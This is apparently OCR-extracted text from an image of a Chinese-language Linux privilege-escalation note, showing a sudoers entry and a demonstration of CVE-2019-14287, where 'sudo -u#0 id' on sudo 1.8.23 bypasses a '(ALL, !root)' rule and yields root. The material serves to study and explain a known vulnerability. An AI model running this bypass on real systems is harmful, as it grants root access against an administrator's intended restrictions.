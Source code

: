 ```text
[root@localhost ~]# grep -n "^abcd" /etc/sudoers
1:abcd ALL=(ALL:ALL) NOPASSWD: /usr/bin/whoami, /usr/bin/id
[root@localhost ~]#
```

输入 sudo -l 可以看到

### CVE-2019-14287

版本号 < 1.8.28 的 Sudo 版本均将受到该漏洞的影响。

```shell
sudo -V
Sudo version 1.8.23
Sudoers policy plugin version 1.8.23
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.23
```

配置如果为这样

```
[abcd@localhost tmp]$ sudo -l

User abcd may run the following commands on localhost:
    (ALL, !root) /usr/bin/id

```

效果

```
[abcd@localhost tmp]$ sudo -u#0 id
uid=0(root) gid=0(root) groups=0(root),980(wireshark)
```
